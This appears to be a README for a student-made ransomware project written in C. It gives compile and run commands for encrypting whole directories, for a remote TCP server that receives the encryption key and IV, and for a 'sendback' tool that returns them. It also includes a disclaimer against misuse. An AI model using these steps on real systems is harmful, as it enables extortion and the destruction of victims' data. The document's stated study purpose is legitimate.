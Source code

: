 # CRansomware
A little Ransomware made in C for a school project.

Please do not use it as a virus. It is not made for this purpose. The aim of this project is studying how sockets and crypto work with C (memory aswell).

# How to Use

You need to compilate the ransom.c

/!\ The IP and the port of the remote server (that will receive the key and the IV is hard coded). /!\

On the Client
```
gcc -o ransom ransom.c ransomlib.c -lcrypto
```

if the compilation fails, you can try to use this command to fix it
```
sudo apt install libssl-dev
```

On the remote server

You compilate the TCP.C (It will allow you to get the key and IV)
```
gcc TCP.c -o TCP
```

usage of the compilated Binary

```
./TCP <IP> <PORT>
```

/!\ If the TCP server is not running, you won't be able to encrypt files /!\

# Run the Ransomware on the client

To encrypt a whole directory

```
./ransom <path> encrypt
```

To decrypt

```
./ransom <path> decrypt <key> <IV>
```

# Sendback

The send back is used to send back the key and the IV to the client (that will have the TCP scipt compilated on it).

Compilate it 
```
gcc sendback.c -o sendback
```
Run it.
```
./sendback <ip> <port> <key> <IV>
```
# Sendback

Ugo Dasseleer

Julien Detré

